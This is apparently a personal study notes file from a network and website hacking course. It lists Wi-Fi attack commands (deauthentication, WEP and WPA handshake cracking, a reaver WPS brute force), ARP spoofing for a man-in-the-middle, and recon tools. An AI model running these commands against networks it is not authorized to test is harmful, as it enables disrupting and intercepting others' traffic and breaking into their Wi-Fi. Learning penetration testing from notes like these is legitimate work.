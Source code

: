 # dump
Contains non relevant info that I wanna dump


## Table of Content
1. Network Hacking
    1. Pre-connection Attack
    1. Gaining Access
    1. Post-connection Attack
1. Gaining Access
1. Post exploitation
1. Website Hacking 
---

```
iwconfig : Gived info about wireless adapter
ifconfig [interface name] down/up : Make the interface up/down
airmon-ng check kill
iwconfig [interface-name] mode monitor : Changes wireless mode from managed to monitor
ifconfig [interface-name] hw ether [Your_Desired_MAC_Adress]
```

### airodump-ng : Used by wireless interface in monitor mode to capture packet
```
airodump-ng [interface-name] : Sniffs all the wireless network around with their protection level(Open/WEP/WPA/WPA2) and other critical info

airodump-ng --band [a,b,g,n] [interface-name] : capture packet in band specified

airodump-ng --bssid [bssid] --channel [channel number] --write [filename] [interface-name]

aireplay-ng --deauth  100000 -a [access mac] -c [client mac] [interface-name] : Disable a user from using wi-fi
```

### aircrack-ng : Used to crack WEP(IV + key) 
```
aircrack-ng [cap-file-name]
```

### aireplay-ng : Used to generate fake traffic. It comes handy if target wifi is not generating enough traffic
```
aireplay-ng --fakeauth 0 -a [mac-of-AP] -h [mac-of wireless-adapter] [interface-name] : For assocaiation
aireplay-ng --arpreplay  -b [mac-of-AP] -h [mac-of wireless-adapter] [interface-name]
```

### Cracking WPA/WPA2
Only difference in encrption used for message integrity
WPA: TKIP
WPA2: CCMP

WPS: Can be exploited. It was designed to simplify connecting to wireless. Only way to prevent against this is enabling PBC(Push button connect)

```
wash --interface [interface-name] : Shows all the wifi with wps enabled
reaver --bssid [bssid] --channel [channel number] --interface [interface-name] -vvv --no-associate : Bruteforce 8 bit WPS pin which is then used to compute WPA Passkey
```

#### Wordlist Attack
```
MIC of handshake + word list 
aircrack-ng [handshake-capture-file]-w [wordlist] 
```
---
#### Creating Wordlist
crunch [min] [max] [character] -t [pattern] -o [filename]


---
### NetDiscover and Nmap
```
netdiscover -r [range-of-ip] : IPs and Vendor of devices connected to the same network
```

Nmap: Gives information about open port, operating system and running services.
Zenmap: GUI warpper over Nmap


### MITM Attack
Multiple ways to attain this. One way is ARP spoofing.

arpspoof -i [interface-name] -t [target_ip] [gateway_ip]
arpspoof -i [interface-name] -t [gateway_ip] [target_ip]

After these two commands, arp is spoofed but still we has to force out computer to work as router
echo 1 > /proc/sys/ipv4/ip_forward


BetterCap: better than arpspoof.


### XSS
Persistent XSS : Stored in DB
Reflected XSS : Run on a specific URL
DOM based XSS : 

**Beef** : Used for XSS attack

### ZAP : Zed attach proxy
Automatically find vulnerabilities in web application.

### Information Gathering
```
knock : Find subdomain of target
drib [url] [wordlist] : Web Content server tool to  collect infomration about files on server

ip: [ip] : to get list of all websites on server.
```
#### Best website for info-gathering: 

1. [https://www.robtex.com/](https://www.robtex.com/) 
1. [http://whois.domaintools.com/](http://whois.domaintools.com/)
1. [https://sitereport.netcraft.com/](https://sitereport.netcraft.com/)